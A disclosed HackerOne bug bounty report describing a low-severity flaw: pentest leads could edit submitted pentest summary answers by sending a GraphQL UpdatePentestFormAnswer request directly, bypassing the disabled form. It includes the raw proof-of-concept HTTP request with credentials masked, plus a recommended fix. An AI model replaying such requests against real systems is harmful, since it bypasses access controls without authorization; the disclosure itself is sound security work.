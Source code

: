 # Editing Pentest Summary Report Answers After Submitting Them

## Report Details
- **Report ID**: 1139528
- **URL**: https://hackerone.com/reports/1139528
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-03-29T05:46:32.845Z
- **Disclosed**: 2021-05-06T06:30:27.734Z

## Reporter
- **Username**: whhackersbr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
## Summary:

Pentest leads should not be able to edit pentest summary report answers after submitting them.

## Steps To Reproduce:

1) After submitting the pentest summary report, try to edit it:

{F1246327}

You can't. The form is disabled.

2) Use the HTTP Request below (update `X-Auth-Token`, `Cookie` and the `pentestFormAnswerId`):

```
POST /graphql HTTP/1.1
Host: hackerone.com
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: */*
Accept-Language: pt-BR,en-US;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hackerone.com/******************************************************************
content-type: application/json
X-Auth-Token: ******************************************************************
Content-Length: 1498
Origin: https://hackerone.com
DNT: 1
Connection: close
Cookie: ******************************************************************

{"operationName":"UpdatePentestFormAnswer","variables":{"pentestFormAnswerId":"******************************************************************","content":"Blah blah blah"},"query":"mutation UpdatePentestFormAnswer($pentestFormAnswerId: ID!, $content: String!) {\n  updatePentestFormAnswer(input: {pentest_form_answer_id: $pentestFormAnswerId, content: $content}) {\n    was_successful\n    pentest_form_answer {\n      id\n      content\n      __typename\n    }\n    __typename\n  }\n}\n"}
```

The pentest summary report will be edited.

{F1246329}

## Recommendation:

Show an error instead of allowing the modification of pentest summary report answers.

## Impact

A pentest lead can modify the pentest summary report answers after submitting them to review.

## Attachments
- Captura_de_Tela_2021-03-29_a_s_02.35.46.png
- Captura_de_Tela_2021-03-29_a_s_02.38.19.png
